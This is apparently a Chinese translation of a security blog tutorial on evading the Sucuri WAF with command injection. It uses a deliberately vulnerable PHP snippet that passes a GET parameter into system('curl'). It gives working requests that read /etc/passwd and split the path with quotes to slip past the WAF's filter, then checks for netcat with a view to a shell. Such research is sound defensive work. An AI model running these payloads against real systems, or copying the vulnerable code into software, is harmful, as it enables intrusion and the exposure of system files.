是时候做一些测试了！<br>
我将使用下面的PHP代码，以测试它，像往常一样，我使用了Sucuri WAF和ModSecurity的。<br>
大概，阅读这段代码后，你会觉得它太愚蠢和简单了，没有人不去使用PHP curl函数，而在`system()`函数内部使用`curl`，我将使用的PHP代码是：

```
&lt;?php
   if ( isset($_GET['zzz']) ) `{`
      system('curl -v '.$_GET['zzz']);
   `}`
```



## Sucuri WAF

我认为在这两篇文章后不久，Sucuri的某个人将会很快删除我的帐户<br>
~但是，我发誓：我使用`Sucuri WAF`与我的`ModSecurity`进行比较，并不是因为我认为其中一个比另一个更好。<br>
Sucuri提供了很好的服务，我将它作为示例，仅仅因为它被广泛使用，所有用户阅读本文，都可以在其Web应用程序上更好地测试这些技术。<br>
首先，我尝试使用此PHP应用程序来获取google.com的响应主体，而不对参数的值进行编码：

```
curl -v 'http://test1.unicresit.it/?zzz=google.com'
```

它按预期工作，google.com 302页面显示，我应该跳转到www.google.de（谷歌地理定位我的服务器在Frankfurt）：<br>[![](https://p2.ssl.qhimg.com/t01e041ef4dd8a82522.png)](https://p2.ssl.qhimg.com/t01e041ef4dd8a82522.png)<br>
现在，为了利用这个易受攻击的应用程序，我做了很多事情。其中一件事是用分号`;`分解`curl`并尝试执行其他系统命令。<br>
当我尝试读取`/etc/passwd`文件时，Sucuri会探测到<br>
例如：

```
curl -v 'http://test1.unicresit.it/?zzz=;+cat+/etc/passwd'
```

由于以下原因被Sucuri WAF阻止

```
阻止试图对RFI / LFI进行的检测
```

我认为（只是一个假设，因为用户无法看到Sucuri WAF规则的细节）<br>`Sucuri RFI / LFI`尝试规则使用了我们以前见过的“匹配短语”之类的东西，并列出了常见的路径和文件名etc/passwd。这个WAF有一个非常简约的规则集和一个非常低的级别，可以让我用两个单引号绕过这条规则！

```
curl -v "http://test1.unicresit.it/?zzz=;+cat+/e'tc/pass'wd"
```

[![](https://p5.ssl.qhimg.com/t01a09b20946c842217.png)](https://p5.ssl.qhimg.com/t01a09b20946c842217.png)<br>
我知道你在想什么：是否在Sucuri WAF积极保护你的应用程序的时候获取一个shell？<br>
当然可以！<br>
但是唯一的问题是我们不能使用netcat，因为它没有安装在目标容器上

```
$ curl -s "http://test1.unicresit.it/?zzz=;+which+ls"
/bin/ls
$ curl -s "http://test1.unicresit.it/?zzz=;+which+nc"
$
```
